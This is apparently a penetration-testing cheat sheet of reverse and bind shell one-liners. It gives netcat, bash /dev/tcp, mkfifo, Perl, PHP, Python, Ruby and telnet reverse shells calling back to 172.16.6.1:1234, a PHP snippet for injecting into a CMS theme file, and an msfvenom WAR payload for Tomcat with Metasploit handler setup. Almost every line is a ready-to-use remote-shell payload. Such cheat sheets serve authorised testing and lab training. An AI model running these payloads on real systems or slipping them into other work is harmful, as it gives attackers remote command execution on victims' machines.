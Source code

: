 ### Reverse Shells
#### Listensers
`nc -nlvp 1234`
- Always set up a netcat listener before executing a bash reverse shell

-You can also use multi handler from metasploit to catch incoming reverse shells
`msfconsole`
`use exploit /multi/handler`
`set LHOST 172.16.6.1`
`set LPORT 1234`
`run`

#### Netcat Reverse Shell
`nc 172.16.6.1 1234 -e /bin/sh`
- Standard netcat reverse shell (only works with some versions of nc)

#### Bash Reverse Shells
`bash -i >& /dev/tcp/172.16.6.1/1234 0>&1`
- Basic bash reverse shell

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 | nc 172.16.6.1 1234 >/tmp/f`
- Another bash reverse shell

#### Perl Reverse Shell
`perl -e 'use Socket;$i="172.16.6.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

#### PHP Reverse Shell
`php -r '$sock=fsockopen("172.16.6.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`
- Standard PHP reverse shell typically used for injection on the terminal enviroment or into a web application

`$sock=fsockopen("172.16.6.1", 1234);exec("/bin/sh -i <&3 >&3 2>&3");`
- This php shell is used when you can inject php code into a theme file of a CMS (think wordpress)

#### Python Reverse Shell
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.6.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`
- Standard python reverse shell

#### Ruby Reverse Shell
`ruby -rsocket -e 'exit if fork;c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`
- Linux ruby reverse shell
`ruby -rsocket -e 'c=TCPSocket.new("172.16.6.1","1234");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'`
- Windows ruby reverse shell

#### War Reverse Shell
`msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.6.1 LPORT=1234 -f war > /home/kali/Documents/shell.war`
- This will generate a war file for upload on the Tomcat CMS. Once uploaded click on the shell option to activate it.
- Catch this shell with multi/handler
`msfconsole`
`use exploit /multi/handler`
`set payload windows/meterpreter/reverse_tcp`
`set LHOST 172.16.6.1`
`set LPORT 1234`
`run`

#### Reverse shell over the Telnet Protocol
`mknod a p; telnet 172.16.6.1 1234 0<a | /bin/sh 1>a`
- This reverse shell makes a special character file (mknod) uses telnet to call back and direct standard output to the character file via the binary /bin/sh

### Bind Shells
#### Netcat Bind Shell
`nc -nlvp 1234 -e /bin/sh`
- This is executed on the target box and waits for an incoming connection
`nc [target box ip] 1234` 
- This is executed on your attack box to connect to the listener on the target




